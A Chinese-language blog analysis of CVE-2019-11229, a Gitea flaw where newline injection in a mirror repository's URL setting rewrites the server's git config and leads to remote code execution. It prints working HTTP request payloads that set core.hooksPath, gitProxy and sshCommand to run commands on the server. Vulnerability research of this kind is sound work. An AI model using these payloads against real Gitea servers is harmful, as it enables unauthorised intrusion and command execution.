 ```yaml
---
title: CVE-2019-11229详细分析 --git config可控-RCE
date: 2019-07-23 17:04:28
tags:
---
```


2019年4月15号，gitea曾爆出过一个漏洞，恰逢当时对这个漏洞比较好奇就着手去研究了一下，漏洞的描述是这样的：

models/repo_mirror.go in Gitea before 1.7.6 and 1.8.x before 1.8-RC3 mishandles mirror repo URL settings, leading to remote code execution.

在和朋友@hammer的一同研究下，成功控制了git config的内容，但是在从git config到RCE的过程遇到了困难，就暂时搁置了，在过了几个月之后，偶然得到@Lz1y和@x1nGuang两位大佬的启发，成功复现了这个漏洞，下面我们就来仔细研究下这个问题。

<!--more-->


# 分析补丁

首先根据cve的信息，确定漏洞1.7.6和1.8.0-rc3上修复

- https://github.com/go-gitea/gitea/releases/tag/v1.7.6
- https://github.com/go-gitea/gitea/releases/tag/v1.8.0-rc3

根据漏洞文件为`repo_mirror.go`这个信息锁定更新的commit，commit主要为 #6593和#6595

- [https://github.com/go-gitea/gitea/pull/6595/commits/52af826a7aa1df6ab538d881db236698cb367cd7](https://github.com/go-gitea/gitea/pull/6595/commits/52af826a7aa1df6ab538d881db236698cb367cd7)

根据patch可以大致锁定问题的关键点

`/models/repo_mirror.go`

![image.png-57.1kB][1]

当仓库为mirror仓库时，settings页面会显示关于mirror的配置
```
if !repo.IsMirror {
		ctx.NotFound("", nil)
		return
	}
```

patch中将原来的修改配置文件中的url选项修改为NewCommand。很容易理解，将写入文件更改为执行命令，这种修复方式一定是因为写入文件存在无法修复这个问题的窘境，那么这也就说明url这里可以通过传入`%0d%0a`来换行，导致修改config中的其他配置。

# 控制gitconfig

跟随前面的逻辑，首先我们新建一个mirror仓库。

![image.png-65.9kB][2]

抓包并修改`mirror_address`为相应的属性。

![image.png-53.4kB][3]

```
mirror_address=https%3A%2F%2Ftest%3A%40github.com%2FLoRexxar%2Ftest_for_gitea.git"""%0d%0a[core]%0d%0atest=/tmp%0d%0aa="""
```
![image.png-95.3kB][4]

可以传入各种配置，可以控制config文件的内容。

比较有趣的是，如果你更新同步设置时，服务端还会格式化配置。

![image.png-89.2kB][5]

# 进一步利用

而重要的是如何从config文件可控到下一步利用。

首先，git服务端只会保留.git里的内容，并不是完整的类似我们客户端使用的git仓库。所以很难引入外部文件。否则就可以通过设置hook目录来实现RCE，这种思路的关键点在于找到一个可控的文件写入或者文件上传。

其次，另外一种思路就是寻找一个能够执行命令的配置，并寻找一个能够触发相关配置的远程配置。

- https://git-scm.com/docs/git-config

# 通过写文件配合githook path RCE

在git中，存在一个叫做Git Hook的东西，是用于在处理一些操作的时，相应的hook就会执行相应的脚本。

![image.png-61.6kB][6]

在web界面，只有gitea的管理员才能管理git hook，所以对于普通用户来说，我们就不能直接通过编辑git hook来修改脚本。

但我们却可以通过控制git config来修改hook存放的目录。

![image.png-37.8kB][7]

当我们构造发送
```
mirror_address=https%3A%2F%2Fgithub.com%2FLoRexxar%2Ftest_for_gitea.git"""%0d%0a[core]%0d%0ahooksPath=/tmp%0d%0aa="""
```

服务端的config文件变为
![image.png-40.2kB][8]

这样我们只要能在服务端的任意位置能够写入文件或者创建文件，我们就可以设置hookspath到那里，并触发git hook来执行命令。

在经过我们的仔细研究之后，我们发现，在漏洞存在的版本1.7.5版本以下，如果编辑服务端的文件，那么服务端的文件就会保存在gitea的运行目录下生成。

```
/data/tmp/local-repo/{repo_id}
```

而这个文件在不重启gitea的情况下不会清除，而这个repo_id可以从其他的api处挖掘到。

具体详细利用链可以看

- https://www.jianshu.com/p/684fa071026a

值得注意的是，这种方式需要知道服务端运行的位置，虽然我们可以认为go的路径都是比较形似的，也有部分人会在当前编译目录下执行。但可以说这种方式还是不算靠谱。


# 通过控制git config配置来RCE

在@x1nGuang大佬的帮助下，我重新审视了和git config相关的一些配置。

## gitProxy

![image.png-41.2kB][9]

gitProxy是用来针对git协议需要fetch等操作时，需要执行的命令。是一个用来应对特殊场景的配置选项。一般是应用于，在git请求时，可能的需要使用代理应用的场景。

这里我们设置服务端
```
[core]
	gitproxy                = calc.exe
```

然后需要注意，同步的url必须为git开头

![image.png-189.1kB][10]

但问题在于，由于gitProxy在git设计中，就是执行一个代理应用，所以无论输入什么，都会被当作一个应用执行，也就没办法带参数。

这样一来，在实际的利用场景中就又收到了很大的局限，这里可以尝试用普通项目中的上传文件功能来上传一个bin，然后抓包获取文件路径，最后通过gitProxy来执行后门。

但同样的是，这种思路仍旧受限于gitea的运行目录，不过比起之前的利用方式来说，1.8.0版本也可以利用这种方式来RCE。

## sshCommand

在git的文档中，还有一个配置是sshCommand。

![image.png-15.8kB][11]

这是一个在git中允许通过特殊的配置，使git fetch/git push 通过ssh来连接远端的系统。在@Lz1y大佬的博客中也提到了这种利用方式。

- https://www.lz1y.cn/2019/07/20/CVE-2019-11229-Gitea-RCE/

我们设置sshCommand为指定的命令

```
mirror_address=https%3A%2F%2Ftest%3A%40github.com%2FLoRexxar%2Ftest_for_gitea.git"""%0d%0a[core]%0d%0asshCommand=calc.exe%0d%0aa="""
```

然后设置协议为ssh保存，并点击同步。

![image.png-293.4kB][12]

而与gitProxy不同的是，这里可以跟参数

```
&mirror_address=https%3A%2F%2Ftest%3A%40github.com%2FLoRexxar%2Ftest_for_gitea.git"""%0d%0a[core]%0d%0asshCommand="touch 2333"%0d%0aa="""
```

![image.png-117.4kB][13]

# 写在最后

这是一个很特别的关于git类平台的漏洞例子，由于我在研究git config利用方式的时候遭遇了很多困难，导致这篇文章断断续续的复现了很久。整个漏洞利用链和git的特性都有强依赖，还算是挺有趣的体验，有机会再仔细分析一下gitea、gogs和gitlab的代码，希望也能挖一个有趣的洞...


  [1]: http://static.zybuluo.com/LoRexxar/giztazn9z4zcty1611zsoq6s/image.png
  [2]: http://static.zybuluo.com/LoRexxar/b47j72nb2o937o67k1sar449/image.png
  [3]: http://static.zybuluo.com/LoRexxar/ashzkakujn3kzm0fqel1w01o/image.png
  [4]: http://static.zybuluo.com/LoRexxar/p7ei6ntzh13ujciv5vtz6eby/image.png
  [5]: http://static.zybuluo.com/LoRexxar/wiz208cqtonl71nmbmvp9b1r/image.png
  [6]: http://static.zybuluo.com/LoRexxar/pb65x3m5x6ihz0eq8vj0d50g/image.png
  [7]: http://static.zybuluo.com/LoRexxar/50ou3lo9yh3hzp0cgyq2p0jj/image.png
  [8]: http://static.zybuluo.com/LoRexxar/rqspen5nlr7vfz3ei3t1crlx/image.png
  [9]: http://static.zybuluo.com/LoRexxar/kpu2bwcxl7bq1nr9xgdwnmwi/image.png
  [10]: http://static.zybuluo.com/LoRexxar/mabqljrb4v4n60ggcf83j0bb/image.png
  [11]: http://static.zybuluo.com/LoRexxar/72ary138igpaewrkfp3oolj7/image.png
  [12]: http://static.zybuluo.com/LoRexxar/76xmj3w3ub1joqtmqyifpxig/image.png
  [13]: http://static.zybuluo.com/LoRexxar/j6ybit1pbgt9ic85us19bjmy/image.png
